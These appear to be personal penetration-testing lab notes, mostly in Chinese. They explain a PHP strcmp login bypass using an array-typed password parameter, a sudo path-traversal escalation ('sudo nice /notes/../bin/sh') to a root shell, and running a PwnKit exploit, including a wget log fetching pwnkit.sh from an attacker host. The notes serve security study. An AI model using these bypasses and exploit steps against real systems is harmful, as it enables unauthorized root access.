 ![[Pasted image 20250925113547.png]]
![[Pasted image 20250925115707.png]]
Php 5.3 strcmp
if($_GET['login']==="1"){
  if (strcmp($_POST['username'], "admin") == 0  && strcmp($_POST['password'], $pass) == 0) {
    echo "Welcome! </br> Go to the <a href=\"dashboard.php\">dashboard</a>";
    setcookie('pass', $pass, time() + 365*24*3600);
- `if($_GET['login']==="1"){`
    
    - 检查 URL 查询参数 `login` 是否严格等于字符串 `"1"`。
        
    - 例如访问 `index.php?login=1` 时这个条件为真。
        
    - 问题：用 `GET` 来触发登录流程不太合适，登录应通过 `POST` 提交的表单/请求来触发（更符合语义，也更不容易无意触发）。
        
- `if (strcmp($_POST['username'], "admin") == 0 && strcmp($_POST['password'], $pass) == 0) {`
    
    - 比较两个条件都为真时进入分支：
        
        - `strcmp($_POST['username'], "admin") == 0`：检查提交的 `username` 是否等于 `"admin"`（字符串精确比较）。
            
        - `strcmp($_POST['password'], $pass) == 0`：比较提交的密码 `$_POST['password']` 与变量 `$pass`（假设是存着的密码）是否相等。
            
    - 注意 `strcmp()` 返回 0 表示相等。
    - strcmp(string $str1, string $str2): int
比较两个字符串的二进制值（区分大小写，逐字节比较）。

返回值：

0 → 两个字符串相等

<0 → $str1 小于 $str2

>0 → $str1 大于 $str2
        
    - 问题 & 漏洞（很多）：
        
        - 看起来 `$pass` 可能是**明文密码**，如果是这样就非常不安全（不应该在代码或配置里存明文密码）。
            
        - 没有对 `$_POST['username']` 和 `$_POST['password']` 做 `isset()` 或类型检查。如果攻击者发送 `password[]`（数组）、空值或没有字段，可能触发意外行为或警告。
            
        - `strcmp()` 不是抗时序攻击（timing attack）的函数；如果在比较散列时应使用 `hash_equals()`。不过更好的做法是使用 `password_hash()` / `password_verify()`。
            
        - 如果 `$_POST['password']` 是数组（例如 `password[]`），PHP 会发出 warning 并把数组在字符串上下文下转换为 `"Array"`，这会导致比较结果异常（可被滥用）。
## 为什么 `username=admin&password[]=123` 会“奏效”（简明原因）

1. **`password[]` 在 PHP 中变成数组**  
    当你发送 `password[]=123`，PHP 会把 `$_POST['password']` 设为数组（`array(0 => "123")`），**而不是字符串**。
    
2. **代码期待字符串但没做类型检查**  
    你原来的代码里直接这样用：
    
    `strcmp($_POST['password'], $pass)`
    
    `strcmp()` 是一个**字符串函数**，它期望两个参数都是字符串。但如果把一个数组传进去，PHP 会触发“数组到字符串的转换”警告（warning）。
    
3. **数组在字符串上下文会被转换为 `"Array"`（并发出 warning）**  
    在把数组当作字符串使用时，PHP 会把它转换成字面串 `"Array"`（同时在错误日志/响应里会有 warning）。因此 `strcmp($_POST['password'], $pass)` 实际上比较的可能是 `"Array"` vs `$pass`。
    
    - 如果 `$pass` 恰好等于 `"Array"`（或也以某种方式变成了相同的字符串），比较就会返回相等，从而“绕过”了本来应有的密码检查。
        
    - 即使 `$pass` 不是 `"Array"`，由于没有对输入类型做严格检查，逻辑可能会因为 PHP 的类型混淆或错误处理路径而表现出“奇怪”的结果（比如跳过某些分支、报错但依然继续后续代码等），这都能被滥用。
        
4. **总结**：问题核心是 **没有验证 `$_POST['password']` 的类型/存在性**，并且把**敏感比较交给字符串函数**而未做防护。攻击者通过发送`password[]`（数组）触发类型混淆，从而可能导致登录逻辑出错或绕过验证。

sudo -l
Matching Defaults entries for webadmin on serv:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User webadmin may run the following commands on serv:
    (ALL : ALL) /bin/nice /notes/*
sudo nice /notes/../bin/sh
#root 

## 结论（一句话）

`sudu -l` 显示 `webadmin` 被允许以 root 身份运行 `/bin/nice /notes/*`，利用命令参数里写 `../`（路径穿越）可以执行系统的 `/bin/sh`，从而**获得 root shell**。

分析要点：

/notes/../bin/sh 这个字符串以 /notes/ 开头，因此字面上匹配了 /notes/* 的通配规则（sudo 在匹配 sudoers 允许的命令参数时使用的是命令行参数的字面匹配，而不是先把路径规范化为真实路径）。

/notes/../bin/sh 在文件系统语义上等价于 /bin/sh（路径规范化后会变为 /bin/sh），所以被当作参数传给 /bin/nice，最终 /bin/nice 会 执行该路径对应的可执行文件，也就是系统的 /bin/sh。

因为你是用 sudo 调用了 /bin/nice，/bin/sh 就在 root 权限上下文中被执行 —— 因而得到一个 root shell（id 会显示 uid=0）。

因此，这不是 nice 本身“给特权”的问题，而是 sudoers 的通配符规则与路径未规范化匹配造成的特权绕过。

/notes/../bin/sh
/notes/ 是当前路径

.. 上一级目录 /

/notes/../bin/sh 解析后就是 /bin/sh

这就是为什么能通过 sudoers 的 /notes/* 字面匹配，但实际上执行系统的 /bin/sh，获得 root 权限。

使用 sudo 或 su 运行
$ sudo bash
root@hostname:/home/user#

$ sudo sh
root@hostname:/home/user#


shell 继承 root 权限

可以执行任何系统命令（慎用）

提示符通常是 #

since linpeas suggest pwnkit, so

webadmin@serv:~$ chmod +x PwnKit
webadmin@serv:~$ ./PwnKit
root@serv:/home/webadmin# WHOAMI
WHOAMI: command not found
root@serv:/home/webadmin# id
uid=0(root) gid=0(root) groups=0(root),1001(webadmin)
root@serv:/home/webadmin#
or 
--2025-09-25 20:25:27--  http://192.168.45.248:8000/pwnkit.sh
Connecting to 192.168.45.248:8000... connected.
HTTP request sent, awaiting response... 200 OK
Length: 150 [application/x-shellscript]
Saving to: ‘pwnkit.sh’

pwnkit.sh                    100%[============================================>]     150  --.-KB/s    in 0s

2025-09-25 20:25:28 (22.7 MB/s) - ‘pwnkit.sh’ saved [150/150]

webadmin@serv:~$ chmod +x pwnkit.sh
webadmin@serv:~$ ./pwnkit.sh
root@serv:/home/webadmin#